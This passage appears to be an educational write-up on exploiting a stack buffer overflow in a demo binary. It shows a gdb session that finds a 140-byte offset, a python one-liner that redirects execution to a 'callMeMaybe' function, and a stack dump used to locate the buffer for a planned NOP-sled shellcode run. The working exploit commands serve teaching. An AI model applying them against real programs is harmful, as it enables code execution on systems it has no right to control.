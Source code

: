 We have a 140 offset. So we know that we have to pass 140 octets before to put the address of the callMeMaybe function.

The callMeMaybe address is :

```sh
gdb-peda$ p callMeMaybe
$1 = {void ()} 0x80484c6 <callMeMaybe>
```

We have now everything we need to execute this command through the buffer overflow vulnerability.
For call `callMeMaybe`, it is necessary to run the program with an offset of 140 followed by the address of the function in little endian (`0x80484c6` =>  `0xc6840408`).

```sh
gdb-peda$ run $(python -c 'print "A" * 140 + "\xc6\x84\x04\x08"')
```

Great, we just got owned ;), we get the message `Pwned !!`.

## Shellcode execution

The Shellcode is a program composed of hexadecimal commands.

Before, we had find the offset (140), we dispose of a 23 bytes shellcode which correspond to the `/bin/dash` command.
Now we need to find the address of our buffer. We can use `gdb` to get it, `A` equal to `0x41` in hexadecimal. Let's pass in argument two hundred `A` and check the ESP register to find them.

```sh
gdb$ run $(python -c 'print "A" *200')
gdb$ x/100xg $esp
0xffffd490:	0x622f73746e656d75	0x65764f7265666675
0xffffd4a0:	0x65642f776f6c6672	0x336f6d65642f6f6d
0xffffd4b0:	0x410032332d31762f	0x4141414141414141
0xffffd4c0:	0x4141414141414141	0x4141414141414141
0xffffd4d0:	0x4141414141414141	0x4141414141414141
0xffffd4e0:	0x4141414141414141	0x4141414141414141
0xffffd4f0:	0x4141414141414141	0x4141414141414141
0xffffd500:	0x4141414141414141	0x4141414141414141
0xffffd510:	0x4141414141414141	0x4141414141414141
0xffffd520:	0x4141414141414141	0x4141414141414141
0xffffd530:	0x4141414141414141	0x4141414141414141
0xffffd540:	0x4141414141414141	0x4141414141414141
0xffffd550:	0x4141414141414141	0x4141414141414141
0xffffd560:	0x4141414141414141	0x4141414141414141
0xffffd570:	0x4141414141414141	0x0041414141414141
0xffffd580:	0x524e54565f474458	0x544942524f00373d
0xffffd590:	0x4454454b434f535f	0x2f706d742f3d5249
0xffffd5a0:	0x72672d746962726f	0x535f474458006d61
```

We can estimate than the buffer address is between `0xffffd4c0` and `0xffffd570`. Attention, the `gdb` address can be a bit different than when the program is running outside of it. For avoid this problem we will take an address in the middle of our buffer, for example `0xffffd510`, it is not important to target the exact buffer address because we will used a NOP sled.
